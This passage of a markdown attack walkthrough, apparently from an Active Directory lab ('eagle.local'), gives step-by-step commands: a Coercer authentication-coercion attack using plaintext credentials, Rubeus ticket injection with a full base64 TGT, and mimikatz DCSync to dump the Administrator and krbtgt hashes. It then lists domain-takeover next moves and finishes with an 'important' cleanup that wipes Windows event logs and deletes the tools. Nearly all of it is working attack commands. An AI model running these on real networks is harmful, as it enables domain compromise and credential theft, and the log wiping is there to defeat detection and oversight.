#### 3. 🚀 On Kali Machine: Launch Coercer Attack

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```



---

#### 4. 🛠️ TGT Injection

```powershell
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkDu4pcGDoNkmfwOB+oXid7QWcCk2Hcer3hYo7aAUQWn2Mlt6blbxPfJP3+FSyqXam1PKZGOOuLl0TKd9XU3413bRM1VlSBDBcnRmONaECeRw5nQM0oVhUlui/k3RI1Ur196OCzXkoy6Vbw49DhCXqLS4PmPwuHvv8ONGLxJL4DQ5+gz1F9N0djK8HUTeODS3pCqIq5QGXKxPyVjmDON4lmgCOUbIpPCDjuE0pycD7kUnw7upksMduPuKuqloVq2WQYH3AsT1vfPtyYGnGOebh/wYl9Yln/pa8ViUbl0FuMmXU8fzxiOmGJmobm+uYNtSAZg8JhAbHRyZ494sV7x2lswXdfy6QDPbOSUOfP6WLEosCclQzYio6ZzVNPbVwDhMAWtOj9k838btABbLacCJjky4Bch0CSV2LAO53f1z/J1sqq1bQMEsmJehPTa1FYI5IWzOvwaoHkOsvSovWLPHBXPMD0AqUuXSBTFF9t73ps4MJwTbNxCBGYxsX7PsUzHVK1QTLOgTkuvwmy78TpzNVV3DM4lQUXAJf0DMQT2tslKNV38uaOoVb90V796F38vs4FtEOI488fXo1dpxQItnKlLWZoU5OU7tUytNi72ljdcb3NFlTK2ZjDvLkqMFaeOnijsSoTQZTUqOCLusf9oAJQoQfmZizkGQ+g2Od0QM9DyQWTyE5Jz6PM1/VHL0GxMEmwx2vVgbE/ImSYzkVgC8+lTb+AnblcFpKbWzThcSNXG9bPakBkevXicAQc1f/IKKHteiM0OPjLviJVgXXlFTR/6JrNlklIGh9BFvI3PYHAMNkJWepFWyfSErDO+cDDXvgwKRrgolBwhufn2A8jtt0zjOieuwfKTD8zWzD3ORm4DDpHYgE4XsP9Y2I9rUtEizVtst5yvqaxhqPlTClGM1k4P24Fyuv5nnGVTuzkFo7vWaJuIzz2N2phXxlLEesXPhjdkhh8ArlBwAXWp1mpkNgvK9jLVCVptFJnhPvtjdkHUSUs9NcVyBVBveC4QPIui1E2LYClTLsCXQ1VI6rbRdIkkFJFhOIiPpqYzlvOPePFMOmeB2gzuEWSJtsG6KueY0k+ZsqmU1xyqhOv8EvpYRdWKbqc4XgEHbDKNXnQ5nuT2qq/qGpCg4tA+0JlbDdEQqZp6oVSOHTT4SwnEPu/LYNj0JIlxlQtofzkJ8dAd6Ss/p+nY7d6mLV28/3+wv87lD8gIxbnNxAV1w+ylGGDH07TvX3/VaBgMPlk0fwmRPeMRYj2nONONv39PEgdMZscKbE2seHxZo5O8s8Bek27qdmnnOpisCiFqeJkX9orCSW434pHrzDXu7c47oKQCutkS/5Pz1JZDbpXFcLZIxA0cqjSpgZuiztUkJ1ME8nj/J3eRqWMjWVTtdV85PxHxyDrfqVxvmZ76OB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHIMIHFMIHCoCswKaADAgESoSIEIL+/rlhtQTD+hV4CqRO14lo0KYpKoUPLGyvx6yVfdruNoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEBoQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDI1MDQyODEyNTI1M1qmERgPMjAyNTA0MjgyMjUyNTJapxEYDzIwMjUwNTA1MTI1MjUyWqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=
```

---

#### 5. 🧠 Verify Ticket Injection (`klist`)

```powershell
klist
```



---

#### 6. 🚀 Execute `DCSync` Attack (`mimikatz`)

```powershell
cd .\mimikatz_trunk\x64
```

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

```powershell
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

> ✅ This allows you to forge unlimited `TGTs` later.



---

#### 7. 📣 Next Move

- Create a Golden Ticket.
- Pivot into other servers.
- Steal more credentials, secrets, PKI certificates, etc.
- Own the entire domain

---

#### 8. 🚨 VERY IMPORTANT: Clean Up After

```powershell
wevtutil cl security
wevtutil cl system
wevtutil cl application
Remove-Item -Path "C:\Users\bob\Downloads\mimikatz.exe" -Force
Remove-Item -Path "C:\Users\bob\Downloads\Rubeus.exe" -Force
```

> ✅ Clean event logs
> ✅ Remove Rubeus and mimikatz